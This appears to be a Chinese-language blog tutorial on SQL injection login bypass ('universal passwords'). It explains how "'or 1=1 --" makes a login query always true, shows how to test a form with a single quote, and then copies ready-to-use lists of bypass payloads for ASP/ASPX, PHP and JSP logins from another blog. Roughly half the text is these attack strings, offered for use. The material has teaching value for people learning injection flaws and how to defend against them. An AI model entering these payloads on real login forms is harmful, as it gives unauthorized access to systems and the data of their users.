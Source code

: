 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


##OR漏洞简述
该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

##漏洞原理
由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。
例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为
```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```
而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为
```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```
此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。
原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

##判断方法
在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

##不同类型程序的万能密码
应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

###asp aspx万能密码
* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

###PHP万能密码
* `'or 1=1/*`
* `User: something`
* `Pass: ' or '1'='1`

###jsp 万能密码
* `1'or'1'='1`
* `admin' or 1=1/*`